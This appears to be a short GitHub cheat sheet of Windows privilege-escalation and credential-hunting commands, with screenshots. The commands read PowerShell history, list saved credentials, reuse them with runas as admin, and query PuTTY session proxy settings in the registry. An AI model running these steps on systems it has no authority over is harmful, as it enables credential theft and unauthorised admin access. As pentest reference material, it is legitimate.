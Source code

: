 Powershell History
Tool: cmd ( admin )
> %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
![image](https://github.com/cyberwh15ky/command/assets/142871997/1f4ccdad-a35f-4327-bd05-5a2fa3b66ba5)

Saved Windows Credentials
Tool: cmd ( admin )
> cmdkey /list
![image](https://github.com/cyberwh15ky/command/assets/142871997/f1fa1fff-530b-4b6c-8b30-6b3db45faeb5)

Try the user login
Tool: cmd ( admin )
> runas /savecred /user:admin cmd.exe
![image](https://github.com/cyberwh15ky/command/assets/142871997/ae29ae45-a559-4b11-a6d0-3884840a2952)
![image](https://github.com/cyberwh15ky/command/assets/142871997/26305a77-91b3-4550-8d86-d783c0afa33b)


Retrieve Credentials from Software: PuTTY
Tool: cmd ( admin )
> reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s
![image](https://github.com/cyberwh15ky/command/assets/142871997/fd76849c-6eaa-4f9d-81a9-4c447154b311)
![image](https://github.com/cyberwh15ky/command/assets/142871997/d2c68171-98c8-4b9b-bcc6-423b6458b993)




Scheduled Tasks
Tool: cmd ( admin )
> schtasks
